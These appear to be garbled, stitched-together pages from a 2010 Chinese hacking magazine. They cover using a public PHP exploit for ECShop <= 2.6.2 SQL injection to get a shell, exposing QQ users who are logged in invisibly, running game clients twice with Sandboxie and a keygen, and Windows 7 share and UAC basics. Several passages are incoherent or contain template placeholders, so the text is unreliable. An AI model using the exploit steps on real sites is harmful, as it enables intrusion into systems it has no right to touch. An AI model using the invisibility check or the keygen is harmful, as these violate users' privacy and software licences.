织网点评：从安全角度来看，提升系统鲁棒性和用户体验并不矛盾，真正的问题往往出在架构设计、流程管理以及对风险的持续评估上。

### 美国黑客攻陷通用车窗和邦尼手机

据知通用汽车召告黑客安全组织打电话打电话吗？只要花费 1500 美元（约 1 万人民币）就能买到一把。黑客黑莓手机讲，校园一名电脑安全实战专家时说：他们或通过开端拿下手机便按掌握用户通讯内容的风险将日益加大。

在对新闻的进行研究中，调查小组发现的安全漏洞与车载控制系统、移动终端通讯、第三方应用安装密切相关。随着互联汽车与智能手机平台进一步融合，用户所面临的攻击面也在不断扩大。

安全专家提醒，随着新一代车载系统和移动操作系统不断普及，厂商需要通过补丁更新、权限隔离与通信加密来减少风险。否则，一旦被恶意程序利用，后果将远不止设备失控那么简单。

另外值得关注的是，越来越多的黑客开始尝试将手机与车载设备联动攻击，这类跨平台威胁可能成为未来几年最难防范的安全问题之一。

### 基础篇

## Rudiment

## 从搭建 php web 环境到 php 类 exp 的利用

本文你可以学到：
1. php web 环境搭建
2. php 类 exp 的使用方法
3. 本文是新手级练手一类文章

大家都比较喜欢从别人的公布的利用程序（EXP）中去拿 shell，不过，对于大家来说，其中有些 EXP 利用起来并不是很顺手。今天，笔者就来给各位讲解如何利用 PHP 写的 EXP。内容很简单也很基础，会使用点直接套用去拿 shell。先来说说一些常见的 php web 环境搭建和基本配置的方法，让大家在心中形成对 php web 环境搭建有个基本的印象。

### 一、搭建 php web 环境

php web 环境说起来可以运行 PHP 程序的 web 环境，今天我就以 Apache、PHP、MySQL、phpMyAdmin、Zend Optimizer 这些软件来搭建，确定好 PHP、MySQL、phpMyAdmin、Zend Optimizer 这些软件来搭建 php web 环境后，你有两种选择：一是逐个手动安装 Apache、PHP、MySQL、phpMyAdmin、Zend Optimizer 这些软件；二是下载 AppServ 软件包，快速搭建 php web 环境。下面重点说一说如何用 AppServ 来搭建 php web 环境。

先点击“Next”后会出来安装协议，点击“I Agree”后会来到选择程序安装路径的地方，默认安装目录为 C:\AppServ，你可以点击“Browse”按钮来自定义安装目录，这里我保持默认，直接点“Next”，接下来会提示选择程序的安装路径，默认的是 Apache、PHP、MySQL、phpMyAdmin 服务器名均为 127.0.0.1，直接点击安装程序会完成，图 3。

##### 二、PHP 类 EXP 的利用

有了上面搭建的 php web 环境利用 PHP 类 EXP 就非常简单了，因为利用 PHP 类 EXP 只需要安装 PHP 就可以了，搭建 php web 环境时只要把 PHP 装好即可。













### 2010 第三季

## 菜鸟扫盲 | Rudiment

这时候输入 php.exe exp.php 就可以看到 EXP 里的说明和使用方法，如图 10。（贴心小提示：php.exe 和 exp.php 与 php.exe 执行参数一样，在使用时不带输入 x.exe。）ECShop <= v2.6.2 SQL injection 说明：ECShop v2.6.2 以及以前的版本存在这个漏洞，EXP 使用方法是 php exp.php host path，其中 php 就是 php.exe，exp.php 是 EXP 文件的文件名，host 是使用 ECShop 的网站的域名或 IP 地址，path 是 ECShop 的安装路径，在根目录下就是 /，在 ecshop 目录下就是 /ecshop/。

我在网站根目录 C:\AppServ\www\ 下建了一个文件夹 ecshop，在里面安装了存在漏洞的 ECShop_V2.6.1_GBK_build091208（直接把源码包放到 ecshop 文件夹中安装，访问 http://127.0.0.1/ecshop/ 就会看到安装页面，按照提示安装即可，安装后网站 ECShop 的首页如图 11）。下面利用 EXP，因为 ECShop 安装目录是 ecshop，输入 php exp.php 127.0.0.1 /ecshop/ 后便会……

#### “沙盘”里的 QQ 游戏

从本文您可以学到：
- 如何利用沙盘工具多开游戏
- 利用沙盘打造安全的浏览器

想象一下，在一个装满了苹果馅饼的盘子里，我们可以尽情随意地在上面作画、舔舐、玩耍。最后，轻轻一抖，沙盘又回到了原来的平整状态。沙盘的魅力就在于它允许你出错，而不用纠结改正。如今，这种神奇的“沙盘”被应用到了计算机与病毒防护领域。

其实“沙盘”技术还可以帮我们实现 QQ 游戏的“作弊”，其实也就是“双开”QQ 游戏了。现在请出我们的主角“Sandboxie”，又名“沙盘多开任意软件”。

下载此软件并解压后会有两个文件，一个是注册机，另一个是安装程序，如图 1。

安装软件这一步在此跳过，需要提醒的是，我们要选择“中文”版本的“沙盘”。安装后，在操作界面的左边可以看到“沙盘”的字样，如图 2。

还是熟悉的那个登录界面，成功地实现了双开目的。在网上很快申请了一个 QQ 号，在登录界面输入账号和密码，成功进入游戏，如图 4。

把这样打开的快捷方式放在桌面使用，这样就避免我们中招了。因为我们的 IE 浏览器是在沙盘模式下运行的，这样还有一个好处，就是再也不用清除浏览器带来的垃圾文件了。

编辑点评：沙盘技术最开始主要用于病毒防护领域，到现在已经进入我们最常见的民用领域。本文只是讲了沙盘的一个应用，其实它可以在多种场景反复使用，比如系统中的各种应用。作为一种实用方法，不应该忽略在浏览器中的应用。

从本文您可以学到：
- 如何查找手机 QQ 隐身
- 怎样利用技巧判断 QQ 在线状态

还记得去年的《3G QQ，我这样充！》吗？不少读者反馈还想继续学习相关技巧。

——手机 QQ 隐身，我也能找到你！

不过所有的方法都差不多，很多只能查看电脑端隐身用户。对于手机 QQ 隐身用户，常规方式下你也不能直接判断。OK，进入主题。

首先我们用小号登录 QQ（图 1），选择隐身登录。登录之后进入家园，如图 2。接下来搜索另一个 QQ，进入家园中的好友列表，图 3。

#### QQ 昵称中的大文章

从本文您可以学到：设置特殊 QQ 昵称的方法。

QQ 昵称中的技巧一直被大家忽视，越神秘越好。我研究了一阵子，收获不少。OK，大家玩玩，从名字开始吧。

### 一、设置超长 QQ 昵称

记得几年前，QQ 昵称字数限制很小。普通的方法往往是借助“代码”，所谓代码就是特殊字符，起到字节占位作用，从而实现不同显示效果。

首先打开 Word，复制需要的下划线（如图 1）。另外，许多代码看起来是空白，其实里面有字符。可以先 Ctrl+A 全选，再 Ctrl+C 复制。接下来回到 QQ，打开“我的资料”进行昵称修改。这里的下划线可以空出一个汉字的字节，大家可以随意调整，如图 2。最后看效果，如图 3。

### 二、QQ 昵称的逆转

去年曾经出现过很简单的方法，可是现在已经被封掉了，不过又出现了更稳妥的方法：在 QQ 昵称输入框里插入隐藏字符，然后通过快捷键调整顺序，如图 4。其原理其实就是插入 Unicode 控制字符，然后反转显示。

#### 学会如何隐藏 QQ 号码

从本文你可以学到：如何隐藏 QQ 号码。很久以前写过这类技巧，今天发现了一个更好的方法，分享出来大家一起玩玩。

在设置后，如果你的朋友查看你的 QQ 号码，会出现数字看不清的效果，但会知道号码位置已被隐藏。就是这么回事。谢谢大家的支持。

#### 关于 Windows 7 的兼容性与安全性

从本文您可以学习到：
- 了解 Windows 7 中的兼容性
- 简单认识 Windows 7 的安全机制

经分析和测试，Windows 7 的兼容性、稳定性与旧版本有所不同，但一些经典软件在新系统中仍可以运行。Windows 7 的安全机制也在不断完善，用户可以通过系统设置提升安全性。

兼容性方面：在 Windows 7 中安装应用程序时，如果出现提示，系统会自动给出兼容模式建议；如果安装失败，可以尝试“以管理员身份运行”，或使用 Windows 提供的兼容性疑难解答来解决问题。对于某些较旧软件，也可以通过右键“属性”中的兼容性设置进行调整。

- 如果程序成功启动，则在提示下运行完整兼容性测试，并持续到测试结束。
- 如果程序没有成功启动，那么它可能是受 Windows 7 或更新版本影响的少数程序之一。
- 如果程序成功完成运行，通常会提示兼容性结果，并可在 Windows 7 下正常运行。

### 安全性方面

默认情况下，Windows 7 会以标准用户身份运行每个程序，即使你属于管理员组。对于仍需管理员权限运行的旧程序，UAC 会给出提示。标准用户程序只能在普通权限下运行，会限制对系统关键区域的访问。若应用需要更高权限，必须手工调整。

```
HKEY_CLASSES_ROOT\Interface\{GUID}
HKEY_CLASSES_ROOT\Interface\{GUID}\NumMethods
HKEY_CLASSES_ROOT\Interface\{GUID}\ProxyStubClsid
HKEY_CLASSES_ROOT\Interface\{GUID}\ProxyStubClsid32
```

少量文件夹受 WRP 保护，某些系统专用目录（如 ${runtime.bootDrive}\Windows\web\wallpaper\details\、${runtime.bootDrive}\Windows\web\wallpaper\windows\、${runtime.bootDrive}\Windows\web\4K\、${runtime.bootDrive}\Windows\System32\ 以及启动目录等）通常只有系统可写。

在 Windows 7 中，Microsoft Internet Explorer 8 以保护模式运行，它在沙盒中运行并受到限制。IE8 引入了完整性级别与隔离机制，低完整性进程对文件、注册表及系统对象的访问会受到严格控制，避免低完整性标记对象被滥用。

随着兼容性应用程序逐步迁移到 Windows 7，Microsoft 计划继续增强程序兼容性机制。

## Win 7，Win 7，关门吧！

基础 | Q版黑客  
2010 第一季

### 简单反攻

针对 UAC，确实有人会尝试通过恶意进程将其禁用；因为 UAC 是过渡性提权机制，而管理类应用可以设置隐藏行为。但如果禁用 UAC，系统会通知用户并给出启用说明。微软也在研究如何防范这类恶意行为。

操作失败可能是由于用户“配置”的策略设置为“禁用”而被拒绝。

好了，文章就此结束吧。看起来有点像 Windows 7 说明书，哈哈！但对安全而言，我们了解系统规范机制，才能更放心地使用系统。

编辑后记：这并不是一篇攻击教程，而是对 Windows 7 安全防护机制的基础说明。它不一定完全“可视化”，但值得理解和掌握。

从本文你可以学习：
- 认识 Windows 7 中的默认共享
- 了解怎样关闭这些默认共享

Windows 从 2000、XP、Vista 到 Windows 7，默认状态下都存在一些固定的“默认共享”功能，即“隐性共享”。这类共享对普通用户不可见，但管理员可感知并使用。

默认共享是 Windows 系统常见共享功能，例如 ADMIN$、C$、D$、IPC$ 等。

在已知默认共享的情况下，可以进行远程管理等操作，虽然方便，但也存在被利用的风险。

访问 Windows 默认共享的常用方法有两个：
- 通过“开始”菜单输入 `\\计算机名或IP地址\D$` 或 `\\计算机名或IP地址\ADMIN$`
- 在资源管理器地址栏输入相同格式（例如本机可用 `\\127.0.0.1\C$`）

查看本机默认共享也有两种方法，其中之一是在“开始”菜单搜索 `cmd`，打开命令窗口后执行 `net share` 查看列表。

### 第一种方法：管理窗口右键停止共享

在“我的电脑”右击选择“管理”，在“计算机管理”中单击“共享文件夹”→“共享”，然后在右侧任意选择一个默认共享项（比如 F$）右击“停止共享”。这时 Windows 7 会弹出提示窗口（图 3）。

单击“是”确认后，再次确认“您确实要停止共享 F$ 吗？”，即可关闭这个分区共享。重复该操作可关闭其他共享项。

这种方法操作方便，但治标不治本，因为系统重启后默认共享可能自动恢复，适用于临时处理场景。

### 第二种方法：自动批处理程序

第一种方法的缺点是重启后可能自动还原。可借助 Windows“启动”功能和批处理脚本，在每次开机时自动执行关闭共享命令。

打开记事本，输入批处理内容（每行末尾要回车），保存为 `NotShare.bat`，拖动到“开始”→“所有程序”→“启动”中。之后每次开机都会自动运行以关闭默认共享。

若需要重新开启某个共享，只需修改或删除对应命令行即可。

### 第三种方法：停服务法

在桌面“我的电脑”右键“管理”，进入“计算机管理”→“服务和应用程序”→“服务”。在右侧找到并双击“Server”服务。

该服务用于“支持此计算机通过网络的文件、打印和命名管道共享”。默认启动类型为“自动”，将其改为“禁用”。

最后单击“确定”，并在“服务状态”中点击“停止”后再“确定”。如需恢复共享，可随时将该服务启动并把“启动类型”改回“自动”。

## PEID 的面子工程

从本文您可以得知：如何为程序修改、添加资源。

去年第 12 期提到的 PEID 界面让我产生了修改它的想法。经过尝试，最终做出了新效果（如图 1）。如果你也想动手，可以一起试试。

对 PEID 界面“动手术”并不复杂，关键工具是 eXeScope 和 ResHacker（reshack）。

先做小改动。要实现图 1 的效果，主要涉及两项操作。

首先找对话框：把 PEID.exe 拖进 eXeScope.exe，在左侧树形中找到“Resource”，展开“Dialog”分支（图 2）。101 是 PEID 对话框控件 ID，右侧有很多设置项，比如 caption 等属性。这里重点是修改对话框宽度。

修改后点击“Save Update”保存。接下来添加图片控件。由于 eXeScope 不支持直接添加控件，我们用另一款工具 reshack 完成。

打开其“Dialog Editor”，会弹出对话框界面，按需要调整位置与参数即可，如图 3。

其中第一个“100”是要加载的 bmp 资源名。保存后，PEID 的界面修改就完成了。

## 关于 ...\ 文件夹的新玩法

从本文您可以学到：隐藏文件夹的新方法。

看到一篇关于 `...\` 文件夹的文章后，我尝试了一些以前不知道的技巧。资源管理器和 DOS 中的对象不只是普通文件和目录，确实有一些“非常规玩法”。

我尝试了 U 盘相关操作：`rd autorun.inf /s`，按 y 后，原先的“免疫”状态被破坏。随后又在 autorun.inf 下使用 `md ...\`，配合 `dir` 查看，能看到特殊目录效果。继续删除后，最后只剩空目录。

这个阶段常用命令如下：

```bat
h:
md autorun.inf
cd autorun.inf
md ...\
rd
```

还可以把它写成批处理给 U 盘做“免疫”。例如先建立 autorun.inf 文件夹，再使用相关 `rd` 命令处理，最后再配合 `rd autorun.inf /s`。但这类操作有时会被杀毒软件误报。

接下来讲一个比较陌生的对象：空文本文件相关目录玩法。比如创建一个空的 `text` 对象后，在 CMD 中输入 `start F:\text...\`，可进入对应目录/对象并访问其中内容。

补充一点：在 CMD 中，即使把一个空的 `text...` 文件夹改成其他名字，仍可能通过 `text...\` 方式进入。最后对该类空目录的处理，依然可以通过资源管理器或命令行完成。

## 记一次特别的盗QQ反击！

### 通过黑客的木马盗黑客的QQ！

从本文您可以学到：

- 如何从木马中找到有用的信息

大家好，我是弓刀。今天给大家说的是我经历的一次盗 QQ 事件。当然，起因居然是差点被别人盗 Q！到底有多不幸，注意下面。那天我正在上网，跟 QQ 上无聊的朋友们聊天，正无奈，突然发现 QQ 掉线了，这可不是什么好兆头。我玩这么久了，第一次竟然觉得 QQ 被盗了。然后仔细一看，幸好我有备份密码的防毒软件提示，这让我及时恢复了。可是，这到底是怎么回事？后来，我发现自己的 QQ 密码竟然在两次登录中都被修改了。于是我怀疑是不是中木马了。



